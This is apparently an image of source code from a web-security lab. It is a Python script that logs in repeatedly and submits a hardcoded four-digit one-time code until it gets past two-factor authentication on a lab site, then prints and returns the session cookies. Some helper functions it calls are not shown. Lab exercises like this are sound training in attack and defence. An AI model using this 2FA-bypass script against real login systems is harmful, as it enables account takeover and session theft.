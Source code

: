 ```python
  
# Function to handle the 2FA process
def submit_otp(session, otp):
    # Split the OTP into individual digits
    otp_data = {
        'code-1': otp[0],
        'code-2': otp[1],
        'code-3': otp[2],
        'code-4': otp[3]
    }
    
    response = session.post(otp_url, data=otp_data, headers=headers, allow_redirects=False)  # Disable auto redirects
    print(f"DEBUG: OTP submission response status code: {response.status_code}")
    
    return response

# Function to check if the response contains the login page
def is_login_page(response):
    return "Sign in to your account" in response.text or "Login" in response.text

# Function to attempt login and submit the hardcoded OTP until success
def try_until_success():
    otp_str = '1337'  # Hardcoded OTP

    while True:  # Keep trying until success
        session = requests.Session()  # Create a new session object for each attempt
        login_response = login(session)  # Log in before each OTP attempt
        
        if is_login_successful(login_response):
            print("Logged in successfully.")
        else:
            print("Failed to log in.")
            continue

        print(f"Trying OTP: {otp_str}")

        response = submit_otp(session, otp_str)

        # Check if the response is the login page (unsuccessful OTP)
        if is_login_page(response):
            print(f"Unsuccessful OTP attempt, redirected to login page. OTP: {otp_str}")
            continue  # Retry login and OTP submission

        # Check if the response is a redirect (status code 302)
        if response.status_code == 302:
            location_header = response.headers.get('Location', '')
            print(f"Session cookies: {session.cookies.get_dict()}")

            # Check if it successfully bypassed 2FA and landed on the dashboard
            if location_header == '/labs/third/dashboard':
                print(f"Successfully bypassed 2FA with OTP: {otp_str}")
                return session.cookies.get_dict()  # Return session cookies after successful bypass
            elif location_header == '/labs/third/':
                print(f"Failed OTP attempt. Redirected to login. OTP: {otp_str}")
            else:
                print(f"Unexpected redirect location: {location_header}. OTP: {otp_str}")
        else:
            print(f"Received status code {response.status_code}. Retrying...")

# Start the attack to try until success
try_until_success()
```